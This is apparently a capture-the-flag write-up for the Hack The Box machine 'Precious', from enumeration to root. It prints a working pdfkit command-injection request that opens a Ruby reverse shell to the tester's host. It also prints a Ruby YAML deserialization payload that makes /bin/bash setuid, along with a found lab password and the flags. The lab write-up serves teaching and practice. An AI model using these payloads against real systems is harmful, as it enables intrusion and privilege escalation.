


## Precious

### nmap
```sh {linenos=true}
# Nmap 7.92 scan initiated Sat Apr  8 21:32:58 2023 as: nmap -sC -sV -oA nmap/precious -T4 10.10.11.189
Nmap scan report for 10.10.11.189
Host is up (0.024s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp   open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
8888/tcp open  http    WEBrick httpd 1.6.1 (Ruby 2.7.4 (2021-07-07))
|_http-title: Index of /
|_http-server-header: WEBrick/1.6.1 (Ruby/2.7.4/2021-07-07)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr  8 21:33:07 2023 -- 1 IP address (1 host up) scanned in 8.94 seconds
```

As shown in line 12, `http` did not follow redirect, so I added `10.10.11.189 precious.htb` to `/etc/hosts`.

### gobuster
#### subdirectories
```sh {linenos=true}
┌──(kali㉿kali)-[~/htb/precious]
└─$ sudo gobuster dir -u http://precious.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -o gobuster/subdirectories.out -z
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://precious.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2023/04/08 21:41:19 Starting gobuster in directory enumeration mode
===============================================================
===============================================================
2023/04/08 21:42:03 Finished
===============================================================
```
Nothing to see here.

#### vhost
```sh {linenos=true}
┌──(kali㉿kali)-[~/htb/precious]
└─$ sudo gobuster vhost -u http://precious.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -z -o gobuster/vhost.out
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://precious.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.2.0-dev
[+] Timeout:         10s
[+] Append Domain:   false
===============================================================
2023/04/08 21:45:01 Starting gobuster in VHOST enumeration mode
===============================================================
===============================================================
2023/04/08 21:45:13 Finished
===============================================================
```
Nothing here either.

### searchsploit
First I checked was `WEBrick 1.6.1`, followed by a quick Google. This seems to be a dead end. I also looked at `Wappalyzer` to see if there were any interesting plugins. `Phusion Passenger` is also running, but that also seems to be fine. 

### http
`precious.htb` is a rather simple page that appears to convert a webpage to a PDF.

*file: (likely) index.html*
```html {linenos=true}
<!DOCTYPE html>
<html>
<head>
    <title>Convert Web Page to PDF</title>
    <link rel="stylesheet" href="stylesheets/style.css">
</head>
<body>
    <div class="wrapper">
        <h1 class="title">Convert Web Page to PDF</h1>
        <form action="/" method="post">
            <p>Enter URL to fetch</p><br>
            <input type="text" name="url" value="">
            <input type="submit" value="Submit">
        </form>
        <h2 class="msg">Cannot load remote URL!</h2>
    </div> 
</body>
</html>
```

After some more digging around, I found `precious.htb:8888` shows the open directory.


Obviously there are some goods in here, but the files I could pull down yielded no results.

Then I revisited the webpage. I ran a python server locally to see if the webpage could pull back my directory and convert it to a pdf. This worked.



To get more information on the PDF file, I ran `exiftool`
```sh
┌──(kali㉿kali)-[~/htb/precious]
└─$ exiftool fzh9l7xbe93f8hharkxzcg1symzyg9oo.pdf
ExifTool Version Number         : 12.44
File Name                       : fzh9l7xbe93f8hharkxzcg1symzyg9oo.pdf
Directory                       : .
File Size                       : 18 kB
File Modification Date/Time     : 2023:04:08 22:25:40-04:00
File Access Date/Time           : 2023:04:08 22:26:45-04:00
File Inode Change Date/Time     : 2023:04:08 22:26:45-04:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

Bingo. CVE.

### CVE-2022-25765
A quick Google search details `pdfkit` is vulnerable to [CVE-2022-25765](https://github.com/shamo0/PDFkit-CMD-Injection)

*malicious payload:*
```sh
curl 'http://precious.htb' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://precious.htb' -H 'Connection: keep-alive' -H 'Referer: http://precious.htb' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2F10.10.16.9%3A1337%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.10.16.9%22%2C1337%29%29%27%60'
```

Shell acquired.



### privesc (ruby -> henry)
As `ruby`, I was unable to read `user.txt`. So I began looking at ways to privesc. First file I found that was useful was `Gemfile.lock`.

*file: Gemfile.lock*
```sh
GEM
  remote: http://rubygems.org/
  specs:
    mustermann (3.0.0)
      ruby2_keywords (~> 0.0.1)
    pdfkit (0.8.6)
    rack (2.2.4)
    rack-protection (3.0.0)
      rack
    require_all (3.0.0)
    ruby2_keywords (0.0.5)
    sinatra (3.0.0)
      mustermann (~> 3.0)
      rack (~> 2.2, >= 2.2.4)
      rack-protection (= 3.0.0)
      tilt (~> 2.0)
    tilt (2.0.11)

PLATFORMS
  x86_64-linux

DEPENDENCIES
  pdfkit (= 0.8.6)
  require_all
  sinatra

BUNDLED WITH
   2.3.22
```

I looked into each of these for other vulnerabilities, but found little. Eventually I found `/home/ruby/.bundle/config`. 

*file: config*
```yml
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

### privesc (henry -> root)
#### linpeas
Time to run `linpeas`.

Within the output, I noticed:
```sh
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Although I couldn't edit this file directly, I am still able to read it.

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

After some digging, I found [this Ruby Deserialization payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md) for `ruby 2.x - 3.x`.

*malicious dependencies.yml*
```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /bin/bash
         method_id: :resolve
```

This payload will give `/bin/bash` the `SETUID` bit which will allow `henry` to become `root` after running `/bin/bash -p`. Now to execute this payload...

```sh
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

The rest is cake.

### Flags
**user.txt:** `93e80c871eea9adf9a0c904eb544fe60`

**root.txt** `605e512e74cf708988d7fd7539e10d1f`